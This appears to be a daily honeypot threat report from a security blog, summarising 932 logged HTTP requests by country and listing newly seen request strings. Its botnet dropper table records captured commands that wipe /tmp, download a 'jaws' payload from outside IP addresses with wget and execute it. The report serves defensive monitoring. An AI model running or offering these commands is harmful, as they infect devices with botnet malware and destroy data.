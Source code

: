 ```yaml
---
title: "Report: 2025-08-13 "
date: 2025-08-13
desciption: "Report: 2025-08-13" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-13 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 11 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 932 requests were recorded during the day, originating from 4 different countries, with a peak of 430 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| GB               | Dubai              |
| GB               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                      |
|:----------------|:-----------------------------------------------------------------------------|
| 8.222.142.60    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.222.169.96    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1 |
| 156.215.110.133 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1 |
| 59.36.175.218   | GET /shell?cd+/tmp;rm+-rf+*;wget+196.251.86.86/jaws;sh+/tmp/jaws HTTP/1.1    |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
|  63 |                     3 | GET login.cgi HTTP/1.1                                     |
| 257 |                     1 | GET /odinhttpcall1755099058 HTTP/1.1                       |
| 258 |                     1 | GET /OdinHttpCall1755099058 HTTP/1.1                       |
| 259 |                     1 | GET /Odin/http/call1755099058 HTTP/1.1                     |
| 294 |                     1 | GET /OdinHttpCall1755086418 HTTP/1.1                       |
| 295 |                     1 | GET /Odin/http/call1755086418 HTTP/1.1                     |
| 304 |                     1 | GET /odinhttpcall1755086418 HTTP/1.1                       |
| 314 |                     1 | \x00\x0E\x08I\x22q\xE7OPk\xF4\x00\x00\x00\x00\x00          |
| 315 |                     1 | \x00\x0E8I\x22q\xE7OPk\xF4\x00\x00\x00\x00\x00             |
| 316 |                     1 | \x00\x0E\x08\xE2b\x07\xD7\xF6\xC8q\xA5\x00\x00\x00\x00\x00 |
| 317 |                     1 | \x00\x0E8\xE2b\x07\xD7\xF6\xC8q\xA5\x00\x00\x00\x00\x00    |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   430 | GB                 |
|  1 |                   136 | US                 |
|  2 |                    92 | SO                 |
|  3 |                    57 | DE                 |
|  4 |                    53 | SG                 |
|  5 |                    46 | HK                 |
|  6 |                    25 | BG                 |
|  7 |                    20 | NL                 |
|  8 |                    10 | RO                 |
|  9 |                    10 | SC                 |
| 10 |                    10 | PL                 |
| 11 |                     8 | ZA                 |
| 12 |                     6 | CA                 |
| 13 |                     4 | AE                 |
| 14 |                     4 | BE                 |
| 15 |                     3 | PT                 |
| 16 |                     3 | EG                 |
| 17 |                     2 | TW                 |
| 18 |                     2 | FR                 |
| 19 |                     2 | LT                 |
| 20 |                     1 | BR                 |
| 21 |                     1 | GR                 |
| 22 |                     1 | KR                 |
| 23 |                     1 | BD                 |
| 24 |                     1 | AT                 |
| 25 |                     1 | JP                 |
| 26 |                     1 | IN                 |
| 27 |                     1 | RU                 |
| 28 |                     1 | CN                 |
